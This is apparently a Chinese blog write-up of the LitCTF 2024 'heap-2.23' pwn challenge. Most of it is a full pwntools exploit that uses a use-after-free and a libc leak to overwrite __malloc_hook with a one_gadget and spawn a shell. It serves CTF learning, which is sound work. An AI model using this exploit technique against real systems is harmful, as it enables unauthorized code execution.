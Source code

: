 ```yaml
---
title: '[LitCTF2024]heap-2.23'
date: 2024-11-11 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,malloc_hook,unsortbin_leaklibc]
---
```

> Problem: [[LitCTF 2024]heap-2.23](https://www.nssctf.cn/problem/5614)

## 思路

edit功能存在一个UAF，通过该漏洞修改fd达到申请任意位置区块的目的，再利用edit功能修改对应区块地址的内容，达到利用目的。
我这里选择了劫持`__molloc_hook`函数，需要注意的是，我们需要找到一个区块匹配所需要的结构体，详细可以调试看看`mallo_hook-35`这个位置，再往后填充，将`one_gadget`覆盖到`__malloc_hook`的位置。

## EXP

```python3

from pwn import *
context.terminal=["tmux",'splitw','-h']
context.log_level = 'debug'
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28035)
elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'content : \n',content)

create(0,400)   #0
create(1,10)    #1
delete(0)
show(0)
mallo_hook = u64(io.recvuntil(b'\n')[-7:-1].ljust(8,b'\x00'))-0x68
print(hex(mallo_hook))
delete(1)
lib_base = mallo_hook-lib.sym['__malloc_hook']
one_gadget = lib_base+0xf1247

create(2,0x60)
create(3,0x60)

delete(2)
delete(3)

edit(2,p64(mallo_hook-35))
create(4,0x60)
create(5,0x60)
create(6,0x60)
edit(6,cyclic(19)+p64(one_gadget))

create(7,0x60)
io.interactive()
```

## 总结

一开始是想用`fastbin`去做，后来看文章发现忽略了`uaf`可以直接利用，再一个就是要注意申请`malloc`附件的堆块时要符合结构规范

